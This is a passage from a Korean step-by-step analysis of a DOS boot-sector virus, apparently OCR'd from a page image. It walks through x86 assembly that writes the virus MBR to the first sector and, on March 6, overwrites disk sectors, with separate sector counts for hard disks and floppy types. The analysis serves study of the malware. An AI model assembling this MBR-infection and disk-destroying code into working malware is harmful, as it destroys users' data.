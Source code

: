 * dx를 초기화하여 0번 헤드와 하드디스크를 지정한다.
* 플래그를 백업한다.
* 원본 인터럽트 13의 3번함수를 호출하여 여분공간에 있는 바이러스 MBR을 CHS(0,0,1)에 쓴다.

**⭐ STEP 26**  
감염이 완료되었으니 리턴한다.
``` asm
quitinfect:
		pop     di
		pop     si
		pop     es
		pop     ds
		pop     dx
		pop     cx
		pop     bx
		pop     ax
		retn
```
* 레지스터들을 모두 스택에서 꺼내 해당 루프가 시작되던 지점으로 복원한다.
* 리턴한다.

**⭐ STEP 27**  
이 아래에 있는 코드는 3월 6일이 되어 실제로 디스크를 파괴하는 로직이다. 다음은 디스크 가장 앞단부터 파괴하기 위해 CHS를 설정하는 코드다.
``` asm
damagestuff:
		xor     dx,dx
		mov     cx,1
```
* dx를 초기화 해서 오프셋을 0을 가리킨다.
* cx를 1로 설정하여 실린더를 0으로, 섹터를 1을 가리킨다.

**⭐ STEP 28**  
다음은 각 디스크별로 헤더, 섹터 개수가 다르므로 각각 HDD면 17섹터, 360K FDD는 9섹터, 그 외 FDD면 14섹터만큼 쓰기를 지정해준다.
``` asm
smashanothersector:
		mov     ax,309h
		mov     si,firstsector
		cmp     si,3
		je      smashit                  ; 360K FDD(3)면 9섹터 만큼
		mov     al,0Eh
		cmp     si,0Eh
		je      smashit                  ; 그 외 FDD(0E)면 14섹터 만큼
		mov     dl,80h
		mov     maxhead,4
		mov     al,11h                   ; HDD면 17개 섹터만큼
```
* ax에 309h를 넣어 3번 함수를 지정하고, 9개의 섹터를 쓰도록 지정한다.
* si에 현재 디스크를 구분가능한 데이터를 넣는다.
* si가 360K FDD(3)인지 검사한다.
* 맞다면 그대로 smashit으로 분기하여 공격한다.
* al에 0Eh를 넣어 0Eh개의 섹터를 쓰도록 지정한다.
* si가 그 외 FDD(0E)인지 검사한다.
* 맞다면 그대로 smashit으로 분기하여 공격한다.
* 여기부터는 HDD의 경우이기 때문에 dl에 80h를 넣어 HDD 1을 지정한다.
* maxhead에 4를 넣어 반복을 4번으로 설정한다.
